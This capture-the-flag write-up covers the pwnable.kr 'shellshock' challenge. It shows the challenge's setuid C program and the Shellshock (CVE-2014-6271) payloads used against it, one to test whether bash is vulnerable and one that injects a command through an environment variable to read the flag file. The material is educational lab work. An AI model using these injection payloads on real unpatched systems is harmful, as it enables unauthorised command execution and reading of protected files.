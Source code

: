 ```yaml
---
title: "Pwnable.kr - shellshock"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/pwnable.png
ribbon: red
description: "The challenge represents the very well known vulnerability `CVE-2014-6271` also known as `shellshock`. I won't go into details of how it works (see the references for more info).
we are given a `bash` binary at our working directory, to test if it's vulnerable to shellshock..."
categories:
  - Binary Exploitation
---
```


> Challenge description:
>
> Mommy, there was a shocking news about bash.
> I bet you already know, but lets just make it sure :)



```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

The challenge represents the very well known vulnerability `CVE-2014-6271` also known as `shellshock`. I won't go into details of how it works (see the references for more info).

we are given a `bash` binary at our working directory, to test if it's vulnerable to shellshock you can run the following command:

```
shellshock@pwnable:~$ env x='() { :;}; echo TEST' ./bash -c :
TEST
```

It printed `TEST` which means this bash is vulnerable to shellshock, It will exit silently if `bash` has been patched.

The challenge is just a call to `bash -c` so we can treat it as `./bash` and pass to it what we want to execute (/bin/cat flag).

# Solution:

```
shellshock@pwnable:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
```

# References:

[https://fedoramagazine.org/shellshock-how-does-it-actually-work/](https://fedoramagazine.org/shellshock-how-does-it-actually-work/)

